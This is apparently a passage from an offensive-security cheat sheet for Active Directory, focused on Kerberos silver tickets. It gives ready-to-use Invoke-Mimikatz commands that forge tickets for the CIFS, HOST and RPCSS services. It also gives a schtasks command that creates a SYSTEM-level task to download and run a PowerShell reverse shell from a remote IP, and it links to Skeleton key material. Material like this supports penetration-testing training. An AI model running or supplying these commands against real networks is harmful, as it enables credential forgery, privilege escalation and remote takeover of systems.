 #### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <COMPUTERNAME>
```

## Silver ticket
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

#### Make silver ticket for CIFS service
- Use the hash of the local computer
- Other services are HOST, RPCSS, WSMAN
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:CIFS /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'
```

#### Check access (After CIFS silver ticket)
```
ls \\<SERVERNAME>\c$\
```

#### Make silver ticket for Host service
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:HOST /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'
```

#### Schedule and execute a task (After host silver ticket)
```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

#### Make silver ticket for WMI
Execute for WMI /service:HOST /service:RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:HOST /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:RPCSS /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'
```

#### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```

## Skeleton key
- https://pentestlab.blog/2018/04/10/skeleton-key/
